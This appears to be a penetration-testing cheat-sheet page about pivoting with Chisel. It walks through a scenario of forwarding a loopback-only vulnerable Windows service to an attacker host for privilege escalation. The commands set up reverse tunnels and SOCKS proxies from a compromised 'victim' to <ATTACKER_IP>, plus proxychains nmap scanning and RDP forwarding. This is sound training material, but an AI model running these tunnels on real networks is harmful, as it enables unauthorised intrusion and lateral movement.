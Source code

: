### SCENARIO II (no SSH )
You had managed to pivot through a compromised host (**`123.123.123.2`**) and **gained a low privileged user** **`CRIMSON\bofer`** on the **Windows Server** (**`123.123.123.3`**). During the investigation of the newly compromised host, you found that you can leverage the [buffer overflow vulnerability](https://karol-mazurek95.medium.com/space-challenge-pwn-htb-4bc70c503537) that lies in the **`printer.exe`**(service running on **`127.0.0.1:4444`**) for **privilege escalation** to **`NT AUTHORITY\SYSTEM`** **.** You downloaded the vulnerable **`printer.exe`** to your machine, develop an exploit, and wonder how to send it from your **host** (**`10.10.10.1`**) to the **Windows Server** (**`123.123.123.3`**) service **`printer.exe`** running on the [loopback interface](https://www.juniper.net/documentation/en_US/junos/topics/concept/interface-security-loopback-understanding.html#:~:text=The%20loopback%20interface%20is%20used,the%20loopback%20address%20never%20changes.) (**`127.0.0.1:4444`**)?


![hot potato](https://miro.medium.com/v2/resize:fit:700/1*Eb2avuP0sLLn6NM6JLxBTw.png)

> solution is use ==previously established SSH tunnel  with ProxyChains== (==10.10.10.2==) +  using ***local  loopback port forwarding*** (~~**proxychains ssh -L 1234:127.0.0.1:4444 bofer@123.123.123.3**~~) but we don't have ssh and we can't run it so we will use another tool called ***Chisel*** 
### chisel

***Local loopback Port Forwarding***

```bash
### ON YOUR HOST (10.10.10.1)
# START CHISEL SERVER ON PORT 8000
proxychains chisel server -p 8000 --reverse
# START NETCAT LISTENER ON PORT 4000
nc -nlvp 4000
### ON A COMPROMISED MACHINE (123.123.123.3) 
# START CHISEL CLIENT 
chisel.exe client 10.10.10.1:8000 R:4000:127.0.0.1:4444

``` 

![pic](https://miro.medium.com/v2/resize:fit:700/1*jlorgqQE_tR24qYKmOiJdQ.png)
>Now, if you want to exploit buffer overflow on the vulnerable service available only on **`127.0.0.1:4444`** for the **`123.123.123.3`** from your machine (**10.10.10.1**), you have to run a developed exploit against `10.10.10.1:4000` on your host.

![exploit](https://miro.medium.com/v2/resize:fit:700/1*x_-gMsWfPyR-yGeznyzIEw.png)


other usage:
```bash
# --- SOCKS Proxy for Pivoting

# On Attacker:
chisel server --reverse --port 8000 --socks5
# On Victim:
chisel client <ATTACKER_IP>:8000 R:socks
# Use with proxychains:
echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf
proxychains nmap -sT -Pn <TARGET_IP>
 

# Port Forwarding

# --- Reverse Port Forwarding (RDP Example)
# Forward Victim:3389 to Attacker:1234 (RDP)
# On Attacker:
chisel server --reverse --port 8000
# On Victim:
chisel client <ATTACKER_IP>:8000 R:1234:<Victimr_IP>:3389
# Connect: rdesktop 127.0.0.1:1234
```